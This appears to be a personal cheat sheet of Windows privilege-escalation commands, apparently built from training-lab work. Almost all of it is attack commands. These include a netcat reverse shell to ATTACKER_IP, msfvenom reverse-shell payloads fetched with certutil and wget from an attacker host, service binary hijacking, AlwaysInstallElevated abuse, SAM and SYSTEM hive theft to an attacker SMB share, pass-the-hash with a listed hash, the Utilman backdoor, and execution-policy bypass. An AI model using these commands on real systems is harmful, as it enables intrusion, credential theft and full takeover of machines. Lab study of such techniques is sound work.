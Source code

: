 
can use iron corp to test win stuff

if webshell
	get info on current dir `cd`
	go to and list contents of a dir `cd C:\Windows\Microsoft.NET\Framework\ && dir`

First checks
	List environment
		cmd: `set`
		ps: `Get-ChildItem env: | Format-Table -Wrap`
	Information
		cmd: `ver`
		cmd: `systeminfo`
		ps: Get-SystemInfo
		cmd: `tasklist`
		ps: `Get-LocalUser`
	Networking
		cmd: `ipconfig /all`
		ps: `Get-NetIPConfiguration`
		ps: `Get-NetIPAddress`
		cmd: `netstat`
		ps: `Get-NetTCPConnection`
	whatever

Remember
`dir /a` Displays hidden and system files as well.
`dir /s` Displays files in the current directory and all subdirectories.

Check for credentials left from unattended installation:
	`C:\Unattend.xml`
	`C:\Windows\Panther\Unattend.xml`
	`C:\Windows\Panther\Unattend\Unattend.xml`
	`C:\Windows\system32\sysprep.inf`
	`C:\Windows\system32\sysprep\sysprep.xml`
	File format: [[unattended installation credential files]]

Powershell history
	cmd: `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
	ps: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

Other interesting files
	`\windows\win.ini`
	sam

Saved credentials
	cmd/ps: `cmdkey /list` no passwords, but can be used with `runas /savecred /user:admin cmd.exe`

Configuration files
	find strings in logfiles
		cmd/ps: `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
	IIS
		`C:\inetpub\wwwroot\web.config`
		`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
	Putty
		cmd/ps: `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s` proxy creds?
	Add more - software that store creds have methods to retrieve them - browsers, email-, FTP-, SSH clients, VNC software ...

Scheduled tasks
	`schtasks` list all tasks
	`schtasks /query /tn [taskname] /fo list /v` get more info on task
	`schtasks /run /tn [taskname]` start task (if perms)

Permissions and ownership
	`icacls` [[icacls]]

Getting text into text files at ps/cmd-prompt
	cmd: `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

MSI installation perms
	These reg keys needs to be set to exploit AlwaysInstallElevated:
		`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
		`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
	Generate msi:
		`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`
	Run it:
		`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

Services
	[[services, control]]
	Get info
		ps: `Get-Service` list services
		`sc qc [service name]` get info on specific service
	Service info location in registry
		`HKLM\SYSTEM\CurrentControlSet\Services\`
	Get perms
		ps, cmd: `icacls [service executable]` executable = BINARY_PATH_NAME in sc, ImagePath in registry
		can be found by winpeas
		set perms
			ps, cmd: `icacls "C:\PROGRA~2\SYSTEM~1\WService.exe" /grant Everyone:F`
	Exploiting Modify permissions on the service exe - Generate service executable, upload, set perms
		atk: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		atk: share the file (`python3 -m http.server 8000`)
		ps: `Stop-Service -Name WindowsScheduler -Force`
		cmd: `net stop WindowsScheduler`
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\PROGRA~2\SYSTEM~1\WService.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\PROGRA~2\SYSTEM~1\WService.exe"`
		atk: start a listener (`nc -lvnp 443`)
		ps: `Start-Service -Name "SERVICE-NAME"`
		cmd: `net start "SERVICE-NAME"`
	Exploiting Unquoted Service Paths
		Execution order of unquoted path: `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`
			1. `C:\MyPrograms\Disk.exe`
			2. `C:\MyPrograms\Disk Sorter.exe`
			3. `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`
		atk: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		atk: share the file (`python3 -m http.server 8000`)
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\MyPrograms\Disk.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\MyPrograms\Disk.exe"`
		ps, cmd: `icacls C:\MyPrograms\Disk.exe /grant Everyone:F`
		atk: start a listener (`nc -lvnp 443`)
		ps: `Restart-Service -Name "SERVICE-NAME" -Force`
		cmd: `net stop "SERVICE-NAME" && net start "SERVICE-NAME"`
	Exploiting Insecure Service Permissions
		ps, cmd: `sc.exe sdshow thmservice` Check service permissions [[permissions SDDL]]
		`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		share the file (`python3 -m http.server 8000`)
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\Users\thm-unpriv\rev-svc3.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\Users\thm-unpriv\rev-svc3.exe"`
		ps, cmd: `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`
		To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):
		ps:  `sc.exe config THMService binPath="C:\Users\thm-unpriv\rev-svc3.exe" obj=LocalSystem` to set new bin & account
		cmd: `sc config THMService binPath="C:\Users\thm-unpriv\rev-svc3.exe" obj=LocalSystem` to set new bin & account
		start a listener (`nc -lvnp 443`)
		ps: `Restart-Service -Name THMService -Force`
		cmd: `net stop "SERVICE-NAME" && net start THMService`

Check your current integrity level with
	`whoami /groups`
	more info https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels

Privileges
	`whoami /priv` shows only current ones, not the admin mode ones (like being in the backup group ones)
	`whoami /all` to see groups too as we probably have to open cmd as admin to get all privileges
	[Complete list of privileges](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
	Find ways to exploit: [here](https://github.com/gtworek/Priv2Admin)
	If `SeBackupPriviledge` we can read any file
		`reg save hklm\system C:\Users\THMBackup\system.hive`
		`reg save hklm\sam C:\Users\THMBackup\sam.hive`
		atk: `sudo impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 myshare ../dirname`
		`copy sam.hive \\10.18.21.236\myshare`
		`copy system.hive \\10.18.21.236\myshare`
		atk: `impacket-secretsdump -sam sam.hive -system system.hive LOCAL`
		atk: `impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.62.147`
	if `SeTakeOwnershipPrivilege` we can take ownership of any object on the system, including files and registry keys
		`takeown /f C:\Windows\System32\Utilman.exe`
		`icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`
		`copy cmd.exe utilman.exe`
		Lock the console and press `Win+U`
	if `SeImpersonate` or `SeAssignPrimaryToken`
		Account with these privs: `LOCAL SERVICE`, `NETWORK SERVICE ACCOUNTS`, `iis apppool\defaultapppool`, others?
		Exploit this by:
			1. spawn a process with ^ that users can connect and authenticate to
			2. force privileged users to connect and authenticate
	https://www.exploit-db.com/papers/42556
	SeTcbPrivilege
	SeRestorePrivilege
	SeCreateTokenPrivilege
	SeLoadDriverPrivilege
	SeDebugPrivilege
	play with these on thm alfred


Installed/unpatched software
	`wmic product get name,version,vendor` enum programs - also check desktop shortcuts, start menu, available services...
	look for exploits for the apps
	Druva inSync 6.6.3 - example https://www.exploit-db.com/exploits/49211

HotFixes
	`wmic qfe get Caption,Description,HotFixID,InstalledOn`

List drive letters
	`(wmic logicaldisk get caption 2>nul | more) || (fsutil fsinfo drives 2>nul)`

Metasploit
	go from nc shell to msf
		make msfvenom payload
			`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.21.236 LPORT=444 -f exe -o revsh-meterpr-444.exe`
		from the box - copy to box
			`certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-meterpr-444.exe" "C:\windows\temp\revsh-meterpr-444.exe"`
		start metasploit listener on attacker machine
			`msfconsole -q`
				`use exploit/multi/handler`
				`set payload windows/meterpreter/reverse_tcp`
				`set lhost 10.18.21.236`
				`set lport 444`
				`options` check that it's all correct
				`run` will start listening
		from the box - start revsh
			`C:\windows\temp\revsh-meterpr-444.exe`
	if connected
		`multi/recon/local_exploit_suggester`

Tools
	WinPEAS
		 https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS exe, bat & ps1 versions
		cmd: `certutil -urlcache -split -f http://10.18.21.236:8000/enum/winPEASany.exe C:\windows\temp\winpeas.exe`
		ps: `iwr "http://10.18.21.236:8000/enum/winPEASany.exe" -outfile "C:\windows\temp\winpeas.exe"`
		`winpeas > log.txt`
	PrivescCheck
		https://github.com/itm4n/PrivescCheck
		Bypass execution policy restrictions before running:
			`Set-ExecutionPolicy Bypass -Scope process -Force`
			`. .\PrivescCheck.ps1`
			`Invoke-PrivescCheck`
		Basic check
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
		Extended checks + human-readable reports
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"`
		All checks + all reports
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML,CSV,XML"`
	WES-NG
		https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
		runs on attacker box
		install, run "wes.py --update" to upd database
		run `systeminfo > info.txt` on windows box
		run `wes.py info.txt` on attacker box

